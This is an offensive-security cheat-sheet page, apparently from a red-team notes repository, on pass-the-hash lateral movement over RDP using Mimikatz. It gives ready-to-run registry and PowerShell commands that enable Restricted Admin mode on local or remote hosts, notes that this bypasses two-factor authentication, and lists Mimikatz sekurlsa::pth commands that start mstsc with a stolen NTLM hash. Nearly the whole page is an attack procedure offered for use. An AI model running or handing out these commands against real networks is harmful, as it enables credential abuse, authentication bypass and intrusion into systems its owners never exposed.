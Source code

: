 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - pivot
  - lateral-movement
  - offensive-tools
  - T1021-001
  - network-protocols
  - rdp
  - windows
---
```

# Mimikatz

## 01 - Enable Restricted Admin Mode

> [!IMPORTANT] Conditions
> Enable restricted admin mode.
>> [!INFO]
>> This is will bypass 2FA (two factor authentication) if it was configured in enterprise networks. It allows RDP authentication with Pass The Hash methods.

### 1.1 - Command Prompt

```
C:\> reg.exe add [\\<IP>\]HKLM\System\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /t REG_DWORD /d 0 /f
```

### 1.2 - PowerShell

```
PS C:\> New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0 -PropertyType DWORD -Force

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0 -PropertyType DWORD -Force }
```

## 02 - Run RDP Remote Session 

After passing the hash. Create a new process to authenticate RDP. This is much easier to do.

```
mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<nt_hash>

mimikatz # process::start "mstsc.exe /v:<IP> /noConsentPrompt /restrictedadmin"
```

You can do this in one-liner.

```
mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<nt_hash> /run:"mstsc.exe /v:<IP> /noConsentPrompt /restrictedadmin"
```

---
## References

### LOLRMM

- [LOLRMM: Microsoft RDP](https://lolrmm.io/tools/microsoft_rdp)

- [LOLRMM: Microsoft TSC](https://lolrmm.io/tools/microsoft_tsc)

- [LOLRMM: mstsc](https://lolrmm.io/tools/mstsc)

### ederml

- [ederml: Passing the hash with native RDP client (mstsc.exe)](https://edermi.github.io/post/2018/native_rdp_pass_the_hash/)